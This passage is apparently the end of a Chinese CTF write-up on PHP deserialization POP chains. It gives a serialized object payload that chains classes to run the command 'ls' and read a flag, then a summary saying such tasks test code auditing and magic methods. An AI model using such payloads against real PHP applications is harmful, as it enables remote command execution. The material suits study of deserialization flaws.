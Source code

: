 得到序列化后的字符串  

	O:1:"B":2:{s:2:"B1";O:1:"A":2:{s:2:"A1";N;s:2:"A2";a:1:{s:5:"godmi";O:1:"C":3:{s:2:"C1";O:1:"E":2:{s:2:"E1";O:1:"D":1:{s:2:"D1";s:2:"ls";}s:2:"E2";s:4:"FLAG";}s:2:"C2";N;s:2:"C3";s:3:"www";}}}s:2:"B2";N;}  

然后通过命令查看flag文件就行了。  

# 小结  

关于pop链的考察其实还是考察的代码审计能力，要能从代码中找到可以利用的函数或者参数，通过一步步的倒推或者正推来完善一条pop链，最后编写代码打印出pop链。在这中题目中重点就是对于魔术函数的理解和运用，这种题还是要多做，以后的比赛中一般不会再出现之前那样简单的反序列化题目了。
